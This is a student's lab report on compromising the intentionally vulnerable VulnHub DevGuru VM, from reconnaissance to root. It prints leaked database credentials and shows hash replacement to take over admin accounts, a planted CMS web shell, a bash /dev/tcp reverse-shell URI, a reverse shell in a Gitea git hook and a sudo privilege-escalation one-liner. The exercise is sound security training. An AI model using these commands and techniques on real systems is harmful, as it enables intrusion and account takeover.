# 6 Penetration Testing

Name of report: Penetration_LAB_6_Nikita_Niakhai
Course: Secure Development
Performed by Nikita Niakhai
Date submission: 09.04.2026
---

### Introduction and conditions

For this penetration lab, I sourced a target VM from [VulnHub](https://www.vulnhub.com/entry/devguru-1,620/), with the goal of infiltrating the target server and establishing a reverse shell.

As the attacking machine, I used a clean, fully updated Kali Linux installation.

**Vulnhub VM Description**

---

DevGuru is a fictional web development company hiring you for a
pentest assessment. You have been tasked with finding vulnerabilities on
 their corporate website and obtaining root.

OSCP like ~ Real life based

Difficulty: Intermediate (Depends on experience)

**File Information**

- **Filename**: devguru.ova.7z
- **File size**: 2.9 GB
- **MD5**: B5AA5650934CB06E2154F0584E147050
- **SHA1**: FFEC903B44C9840FE97B928B6078CD7724F178D9

**Virtual Machine**

- **Format**: Virtual Machine (Virtualbox - OVA)
- **Operating System**: Linux

**Networking**

- **DHCP service**: Enabled
- **IP address**: Automatically assign

---

### Network setup between VMs

- First, I created a Host-Only Network `192.168.111.1/24` and placed all VMs inside it.





*Figure. Network configuration*

- Configured both adapters as Host-Only and enabled Promiscuous mode.



*Figure. Network adapter configured for both VMs within the same LAN, with Promiscuous Mode set to All*

- DHCP assigned addresses automatically; the observed IPs were:
    - `192.168.111.5` for KALI
    - `192.168.111.4` for DevGuru



*Figure. IP addresses assigned to both VMs*

### Searching LAN

- With reconnaissance underway, I scanned the network to discover active machines, using the `eth0` interface representing the Host-Only adapter on Kali.
- I also pinged the DevGuru VM to confirm reachability.



*Figure. Network scan results*

- After identifying the IP addresses, I performed a full port scan using `sudo nmap <IP address> -p- -T4`






*Figure. `nmap` scan results v1*

- An unexpectedly large number of ports appeared open, which seemed suspicious. After rebooting both machines and updating Kali's packages, I re-ran the scan and obtained more realistic results:



*Figure. Corrected `nmap` scan results v2*

- To enumerate service details on the open ports, I used the `-sV` and `-sC` flags with `nmap`







*Figure. Detailed `nmap` scan on specific ports*

- The scan revealed the following:
    - A Gitea web server running on port `8585` — confirmed reachable via curl and browser (HTTP 200 OK).
    - A web server on port 80 hosting an admin dashboard and MySQL.





*Figure. Resources hosted on the web server at port `8585`*


*Figure. Resources hosted on the web server at port `80`*

### Analysing web services on the shallow

- To enumerate accessible directories, I ran DirBuster against both web servers.
    - By default, no directory wordlists were available, and downloading one quickly was not feasible, so I proceeded with pure brute-force mode.
- DirBuster yielded no useful results for the Gitea server — since it is not custom software and its endpoints are well-defined, there was no obvious leakage of sensitive paths.



*Figure. DirBuster help showing the path to wordlist files*



*Figure. DirBuster configuration for Gitea server `8585`*



*Figure. DirBuster configuration for DevGuru server `80`*



*Figure. DirBuster results for DevGuru server `80`*

- The analysis of port 80 revealed several noteworthy paths and stack details for the web server (a PHP-based CMS): a `/backend` route, a MySQL admin panel, and an exposed `.git` directory.
- Attempting to access `/backend` confirmed a login page, meaning I would need to locate valid credentials.



*Figure. Login prompt at the `/backend` route*

### Dumping .git folder

- Having discovered an exposed `.git` directory, I used `git-dumper` to extract its contents, then mounted the output to my host machine for analysis in VS Code.



*Figure. `git-dumper` installation and dumping process*

- I successfully dumped the `.git` repository for the port-80 web server and searched the extracted files for credentials using VS Code.



*Figure. Mounting the dumped directory to the shared folder between Kali and the host machine*



```bash
MYSQL
 'database'   => 'octoberdb',
 'username'   => 'october',
 'password'   => 'SQ66EBYx4GT3byXH',
```

*Figure. Credential search results from the dumped `.git` repository*

- I found credentials for two SQL databases, which I immediately attempted to use against the SQL admin panel discovered earlier.

### Gaining access to the database and shuffling data

- DirBuster analysis had previously revealed an `adminer.php` route. Navigating to it confirmed the presence of Adminer — a web-based database management tool.



*Figure. Initial access to MySQL via the `/adminer.php` route*

- Using the credentials obtained from the dumped `.git` repository, I successfully authenticated to the MySQL database for the port-80 web server.



*Figure. Authenticating via the database management interface*

- My focus was on users and credentials, so I examined the backend users table, where I found a single user: **frank**.



*Figure. Backend users table*

- I attempted to use the existing hashed password directly, but authentication failed. Realizing the CMS uses bcrypt, I generated a new bcrypt hash for a known password using an online tool.



*Figure. Authentication error with the stored hashed credentials*



*Figure. Generating a new bcrypt hash for a custom password*

- I then replaced the stored hash in the database table with my newly generated one.

### Exploiting CMS on the 80th web server

- With the password replaced, I was able to log into the admin dashboard at `/backend`.



*Figure. Admin backend dashboard of the CMS*

- After exploring the dashboard and its sections, I devised a plan: create a new page within the CMS routing tree and embed a reverse shell payload within it.



*Figure. Creating a new directory and file within the CMS*

- Each CMS page is composed of `.htm` files containing HTML markup and a script block, which are then compiled into a single PHP file.
- I modified the markup to display the output of commands passed via a URI path variable.



*Figure. Markup content of the `.htm` file*

- The script reads the `cmd` path variable and executes it in the shell, enabling arbitrary shell commands to be passed via the URL. Note that Cyrillic characters and certain special symbols must be URL-encoded.



*Figure. Script content of the `.htm` file*

- Validated the injected script by executing a basic `whoami` command.



*Figure. Test output of the newly injected shell page*

- Set up a listener on Kali using `nc` (netcat).
- Then triggered the reverse shell connection from the target by visiting the crafted URI:

    ```bash
    http://192.168.111.4/shell?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.111.5/4444+0>%261’
    ```



*Figure. Reverse shell established on Kali after executing the URI*

### Searching for Gitea credentials

- Leveraging the reverse shell access and knowing the target username **frank**, I used the `find` command to search for any files referencing that name.



*Figure. `find` command execution*

- A backup file containing references to **frank** was located.



*Figure. `find` results*

- I first inspected the backup file with `cat`, then refined the search using `grep` for more targeted output.



*Figure. Backup file content containing MySQL credentials*

- The backup file contained a new set of MySQL credentials, likely for a different database. I returned to Adminer and authenticated with them.
- This mirrored the earlier credential-extraction loop, but this time targeting the Gitea database.



*Figure. MySQL authentication for the Gitea database*

- Inside the newly accessed database, I found a user table containing a single entry for **frank**:



*Figure. `user` table with 1 row*

- Cracking access to Gitea required considerably more effort, as its password hashing scheme is more complex.
- Initially, I attempted to repeat the same bcrypt approach, but this failed — Gitea uses PBKDF2 with a salt, a hash, and an iteration count. The algorithm was identified as `pbkdf2`.



*Figure. Password generation attempt using method 1*



*Figure. Replacing the stored hash using method 1*

- Using analysis tools, I determined that Gitea uses **PBKDF2-HMAC-SHA256 with 10,000 iterations**. Assuming the salt was stored in plaintext, I worked with Claude to write a Python script reproducing the hash using the extracted salt and round values.
- The generated hash still did not match. After further prompting, Claude identified the key issue: **Gitea uses a non-standard 50-byte key length**.

```bash
python3 -c "
import hashlib, binascii
password = b'password'
salt = b'Bop8nwtUiM'
dk = hashlib.pbkdf2_hmac('sha256', password, salt, 10000, dklen=50)
print(binascii.hexlify(dk).decode())
"
```



*Figure. Generating the correct password hash using a Python script with Gitea's salt, rounds, and key length*

### Exploiting Gitea 8585th server

- With the corrected parameters, I generated the proper hash, updated the database, and successfully logged into Gitea.



*Figure. Gitea dashboard*

- After reviewing the available repository, I identified an opportunity to exploit Git hooks — by injecting a reverse shell payload into the `pre-receive` hook, the shell would be triggered on every subsequent commit.
- I injected a shell command into the `pre-receive` hook to initiate the reverse shell connection:



*Figure. Shell command injected into the `pre-receive` hook to establish a reverse shell*

- With the hook in place, I tested it by editing the `README.md` file and committing the change.



*Figure. `README.md` file modified*



*Figure. Commit message and submission for `README.md`*

- Before committing, I set up a new netcat listener on Kali, this time on a different port.
- The commit triggered the hook, and the reverse shell connected successfully.



*Figure. Reverse shell for the Gitea server established*

### Gaining root access for the reverse shell

- The reverse shell landed with limited user privileges. To escalate to root, I executed the following command:

```bash
sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
```

- To upgrade the shell to a fully interactive TTY, I used the following Python one-liner:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`



*Figure. Root access gained and shell upgraded to interactive mode*

**All lab objectives have been successfully achieved.**

## References

[CTF: DevGuru Walkthrough](https://medium.com/@maveronic/ctf-devguru-walkthrough-005bc10d2480)
